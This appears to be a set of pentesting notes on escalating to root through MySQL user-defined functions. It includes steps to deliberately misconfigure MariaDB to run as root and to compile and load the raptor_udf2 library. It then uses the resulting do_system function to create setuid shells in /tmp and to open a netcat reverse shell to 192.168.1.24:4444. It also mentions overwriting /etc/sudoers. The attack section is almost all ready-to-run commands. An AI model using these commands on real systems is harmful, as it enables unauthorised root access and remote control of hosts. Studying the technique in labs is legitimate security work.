


# MySQL UDF

## Preparing system for test

for testing purposes you can make your mysql service vulnerable manually

To configure this vulnerability on Kali to test run the following commands.

#### &#x20; `chown -R root:root /var/lib/mysql` ` nano /etc/mysql/mariadb.conf.d/50-server.cnf` ` Change user=mysql to user=root and save the file` ` service mysql restart`

## Find which user the mysql servie is running as

in some situations we have a mysql running as root which we can use for privs. first we have to determin the commands that we can use in mysql.mysql has a module called UDF(User-Defined Function) which lets us run commands as the current user which myssql is runnung as. so whit this in mind we might be able to run root commands from mysql.

first we have to see if mysql is running as root:

\
&#x20;`ps aux | grep mysql`

its running as root.login:

`mysql -u root`\
` use mysql; >>> mysql is the database`\
` select * from mysql.func; >>> search for udf`

## if the mysql service already has the function we can skip exploit part:

now we use udf to copy /bin/sh to /tmp and make it executable for john to get a root prompt:

`select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh');`\
` OR`\
` select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');`

exit and go to /tmp

run sh file:

## if mysql doesnt have the function already we add it using the exploit:





the instructions are in exploit itslef

compile on target machine

`gcc -g -c raptor_udf2.c >>> for 32 bit systems`\
` gcc -g -c raptor_udf2.c -fPIC >>> for 64 bit`\
` gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

This will prompt for the password.

mysql -u root -p >>> press enter without any password

`use mysql;`

now we will need to create a temporary table for us to work with. We need a place to load in the Shared Binary into MySQL.

`create table foo(line blob);`

Now that we have the table setup we will need to insert the contents into the table. We do this because the next step is to export it to a root only directory. Since it was moved over or compiled on the victims machine as a non root user this is the only way to do it.

change the file path

`insert into foo values(load_file('/path/to/the/file/raptor_udf2.so'));`

With the raw binary inside of the table we can select it and dump the contents onto the disk anywhere we like! Note that you can even push the contents of a new /etc/sudoers file and overwrite it!

For a UDF to work we need to find the location of the plugins directory. This is where we need the file to be stored. otherwise you will get an error refering to ‘raptor\_udf2.so’ cannot be found.

Look for the value of plugin\_dir:

`show variables like '%plugin%';`

Use the plugin\_dir as the dump file location:

`select * from foo into dumpfile "/usr/lib/mysql/plugin/raptor_udf2.so";`

If there are no errors you were able to sucessfully push the raw binary of raptor\_udf2.so into the plugins directory owned by root! Now we need to create the function to complete the privelege escalation.

`create function do_system returns integer soname 'raptor_udf2.so';`

Now that this is done we can confirm the functions is present in mysql.

`select * from mysql.func;`

If we see the name do\_system with the type function we are good to go. The only thing left is to actually run the code we want.

`select do_system('nc 192.168.1.24 4444 -e /bin/bash &');`

We now setup our listener and we have a root shell!
